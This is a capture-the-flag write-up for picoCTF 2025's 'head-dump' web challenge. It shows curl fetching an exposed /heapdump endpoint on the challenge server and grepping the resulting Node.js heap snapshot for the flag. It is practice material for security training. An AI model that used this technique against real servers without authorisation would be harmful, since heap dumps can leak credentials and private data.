

# head-dump

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information

```text
Level: Easy
Tags: Web Exploitation, picoCTF 2025, browser_webshell_solvable
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
Author: Prince Niyonshuti N.

Description:
Welcome to the challenge! In this challenge, you will explore a web application and 
find an endpoint that exposes a file containing a hidden flag.

The application is a simple blog website where you can read articles about various 
topics, including an article about API Documentation. Your goal is to explore the 
application and find the endpoint that generates files holding the server’s memory, 
where a secret flag is hidden.
The website is running picoCTF News.

Hints:
1. Explore backend development with us
2. The head was dumped.
```

Challenge link: [https://play.picoctf.org/practice/challenge/476](https://play.picoctf.org/practice/challenge/476)

## Solution

We browse to the web site and see the following


Clicking on the `#API Documentation`-link gives us the following information about the `/heapdump` endpoint



### Access the endpoint

We can use `curl` to access the `/headdump` endoint

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2025/Web_Exploitation/head-dump]
└─$ curl http://verbal-sleep.picoctf.net:55492/heapdump   
{"snapshot":{"meta":{"node_fields":["type","name","id","self_size","edge_count","trace_node_id"],"node_types":[["hidden","array","string","object","code","closure","regexp","number","native","synthetic","concatenated string","sliced string","symbol","bigint"],"string","number","number","number","number","number"],"edge_fields":["type","name_or_index","to_node"],"edge_types":[["context","element","property","internal","hidden","shortcut","weak"],"string_or_number","node"],"trace_function_info_fields":["function_id","name","script_name","script_id","line","column"],"trace_node_fields":["id","function_info_index","count","size","children"],"sample_fields":["timestamp_us","last_assigned_id"],"location_fields":["object_index","script_id","line","column"]},"node_count":92685,"edge_count":389044,"trace_function_count":0},
"nodes":[9,1,1,0,314,0
,9,2,3,0,23,0
,9,3,5,0,1,0
,9,4,7,0,135,0
,9,5,9,0,555,0
,9,6,11,0,75,0
,9,7,13,0,0,0
,9,8,15,0,0,0
,9,9,17,0,241,0
<---snip--->
```

### Get the flag

This returns A LOT of information so let's grep for the flag.

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2025/Web_Exploitation/head-dump]
└─$ curl -s http://verbal-sleep.picoctf.net:55492/heapdump | grep -oE 'picoCTF{.*}'
picoCTF{<REDACTED>}
```

And there we have it!

For additional information, please see the references below.

## References

- [API - Wikipedia](https://en.wikipedia.org/wiki/API)
- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [grep - Linux manual page](https://man7.org/linux/man-pages/man1/grep.1.html)
